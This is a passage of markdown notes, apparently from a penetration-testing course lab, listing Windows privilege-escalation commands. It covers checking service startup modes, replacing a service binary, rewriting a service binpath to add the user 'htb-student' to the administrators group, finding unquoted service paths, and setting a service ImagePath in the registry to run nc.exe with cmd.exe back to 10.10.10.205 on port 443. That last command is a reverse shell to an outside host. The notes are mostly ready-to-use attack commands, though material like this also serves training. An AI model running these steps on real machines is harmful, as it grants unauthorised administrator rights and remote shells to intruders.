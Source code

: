 - Check the startup status of the binary : 
```sh
Get-CimInstance -ClassName win32_service | Select Name, StartMode |
Where-Object {$_.Name -like 'mysql'}
#mysql is the name !
```

- Reboot the machine : 
```sh
shutdown /r /t 0
```
 - Replacing Service Binary
```sh
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
#then start the service
sc start SecurityService
```

 **Weak Service Permissions**

- Download Accesschk : 
```sh
wget https://download.sysinternals.com/files/AccessChk.zip
```

- Checking Permissions : 
```cmd
accesschk.exe /accepteula -quvcw WindscribeService
```
 
- Changing the Service Binary Path :
```cmd
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```

 **Searching for Unquoted Service Paths**

- Querying Service : 
```sh
sc qc SystemExplorerHelpService
```

- Searching for Unquoted Service Paths :
```sh
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

**Permissive Registry ACLs**
 
- Checking for Weak Service ACLs in Registry :
```cmd-session
accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
```

- Changing ImagePath with PowerShell :

```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```
